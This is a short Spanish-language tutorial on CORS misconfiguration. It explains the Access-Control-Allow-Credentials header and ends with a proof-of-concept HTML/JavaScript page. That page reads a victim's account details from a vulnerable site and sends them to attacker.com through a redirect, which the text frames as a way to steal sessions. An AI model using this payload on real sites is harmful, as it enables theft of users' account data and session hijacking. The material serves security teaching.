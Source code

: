 ```http
GET /data HTTP/1.1  
Host: robust-website.com  
...  
Origin: https://normal-website.com  
Cookie: JSESSIONID=<value>
```

Y la respuesta a la solicitud es:

```http
HTTP/1.1 200 OK  
...  
Access-Control-Allow-Origin: https://normal-website.com  
Access-Control-Allow-Credentials: true
```

Luego, el navegador permitirá que el sitio web solicitante lea la respuesta, porque el encabezado`Access-Control-Allow-Credentials`  de la respuesta está configurado en `true`. De lo contrario, el navegador no permitirá el acceso a la respuesta.

--------------------------------------------------------------------------

Podemos recuperar del lado del cliente las cookies para poder robar sesiones por ejemplo y mediante ingenieria social para una url maliciosa a la victima.

imaginemos que en una pagina que utiliza cookies para el manejo de sesiones te das cuenta de que a la hora de consultar tu perfil o cualquier otro apartado te devuelve la siguiente configuracion:

```http
...
Access-Control-Allow-Origin: https://normal-website.com  
Access-Control-Allow-Credentials: true
```

(podemos validar esto creandonos una cuenta en la pagina vulnerable e interceptando las peticiones)

podemos utilizar JS para crear una pagina maliciosa:

```html
<html>
	<body>
		<script> 
			var req = new XMLHttpRequest(); 
			req.onload = reqListener; 
			req.open('get','https://vulnerable.site/accountDetails',true); 
			req.withCredentials = true; #para que capture las credenciales
			req.send(); 
			
			function reqListener() 
			{ 
				mi_web_server='https://attacker.com'
				location=mi_web_server+'/log?key='+this.responseText; 
			}; 
		</script>
	</body>
</html>
```
